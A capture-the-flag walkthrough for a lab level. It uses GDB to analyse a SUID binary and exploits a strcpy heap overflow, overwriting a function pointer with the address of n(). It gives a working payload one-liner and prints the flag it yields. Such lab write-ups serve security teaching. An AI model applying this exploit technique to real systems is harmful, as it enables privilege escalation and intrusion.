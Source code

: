 # Level 6 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level6@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level7 users 5138 Mar  6  2016 level6
	```

	This is a SUID binary owned by `level7`.

3. **Test the binary**

	```bash
	./level6
	```

	Output

	```
	Segmentation fault (core dumped)
	```

4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level6@<vm-ip>:/home/user/level6/level6 .
	```

5. **Analyze with GDB**

	```bash
	gdb level6
	(gdb) info functions
	```

	Output shows functions:

	```
	0x08048454  n
	0x08048468  m
	0x0804847c  main
	```

	**Main function disassembly** shows:

	* Two `malloc()` calls (0x40 and 0x4 bytes)
	* The second allocation stores a function pointer initially pointing to `m`
	* `strcpy()` copies our input into the first allocation (0x40 bytes), with **no bounds check**
	* After `strcpy`, it calls the function pointer

	This is a **heap overflow**: overwriting the function pointer allows us to execute any function, e.g., `n()`.

6. **Find target function address**

	From GDB:

	```
	Address of n(): 0x08048454
	```

7. **Calculate overflow offset**

	* First allocation: 64 bytes
	* Pointer to next allocation: + 4 bytes for malloc overhead
	* Distance between allocations: `(0x1c - 0x18) = 4` bytes

	Total = `64 + 4 + 4 = 72` bytes until function pointer.

8. **Build and execute exploit**

	```bash
	./level6 $(printf 'A%.0s' {1..72}; printf '\x54\x84\x04\x08')
	```

	Output:

	```
	f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
	```
